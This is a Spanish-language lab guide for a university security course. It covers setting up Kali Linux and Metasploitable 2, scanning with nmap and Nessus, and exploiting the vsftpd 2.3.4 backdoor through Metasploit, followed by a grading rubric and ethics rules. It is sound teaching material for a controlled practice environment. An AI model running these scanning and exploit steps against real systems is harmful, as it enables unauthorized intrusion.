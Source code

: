 # Actividad-Metasploitable2-SEGINFO
# Guía de Laboratorio: Explotación de Vulnerabilidades en Metasploitable 2

## 🖥️ Herramientas Necesarias

### 1. Descargas

- **Metasploitable 2:**  
  URL: [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)
- **Kali Linux:**  
  URL: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
- **Tenable Nessus:**  
  URL: [https://www.tenable.com/downloads/nessus](https://www.tenable.com/downloads/nessus)
- **VMware Workstation Player:**  
  URL: [https://www.vmware.com/products/workstation-player.html](https://www.vmware.com/products/workstation-player.html)

### 2. Preparación del Entorno

#### Configuración de Máquinas Virtuales

1. Instalar **VMware Workstation Player**
2. Crear máquinas virtuales para:
   - Metasploitable 2
   - Kali Linux

#### Configuración de Red

1. Configurar **AMBAS** máquinas en modo **NAT**
2. Iniciar ambas máquinas
3. Verificar conectividad de red

## 3. Verificación de Conectividad

### Comandos de Prueba


# En Kali Linux
```bash
ping [IP_Metasploitable]
```

# En Metasploitable
```bash
ping [IP_Kali]
```

# Verificar interfaces de red

```bash
ifconfig
ip addr show
```

# 4. Escaneo de Vulnerabilidades
## Escaneo básico de servicios y versiones
```bash
nmap -sV -O [IP_Metasploitable]
```
## Escaneo más detallado
```bash
nmap -sV -p- -A [IP_Metasploitable]
```
Nessus (Opcional)
Instalar Nessus

## En Kali Linux
wget https://www.tenable.com/downloads/nessus
dpkg -i nessus.deb
systemctl start nessusd
Configurar escaneo web
Añadir IP de Metasploitable como objetivo

# 5. Explotación de VSFTPd
Metasploit Framework

# Abrir Metasploit
```bash
msfconsole
```



# Seleccionar y configurar exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
```bash
show options
```
```bash
set RHOSTS [IP_Metasploitable]
```

# Ejecutar exploit
exploit
Verificación de Acceso


# Una vez en sesión
```bash
whoami
pwd
mkdir [NombreEstudiante]
```

## 🛠️ Solución de Problemas Comunes
Errores Frecuentes

Conectividad de red,
Firewall bloqueando conexiones,
Configuraciones de red incorrectas,
Versiones incompatibles de software.

## 📊 Rubrica de Evaluación
Criterios de Calificación

### Configuración de red (20%)

Conectividad entre máquinas
Configuración correcta de red NAT


### Escaneo de Vulnerabilidades (25%)

Uso correcto de Nmap
Identificación de servicios
Detección de vulnerabilidades


### Explotación (30%)

Selección correcta de exploit
Ejecución exitosa
Acceso al sistema


### Documentación (15%)

Registro de pasos
Capturas de pantalla
Explicación de procesos


### Creatividad y Resolución de Problemas (10%)

Manejo de errores
Estrategias alternativas

## 🔒 Consideraciones de Seguridad
Lineamientos Importantes

Usar SOLO en entornos controlados

Obtener autorización antes de realizar pruebas

No usar en sistemas de producción

Respetar leyes de seguridad informática

La seguridad informática requiere ética y responsabilidad.
Estas herramientas son para aprendizaje y deben usarse con permiso.
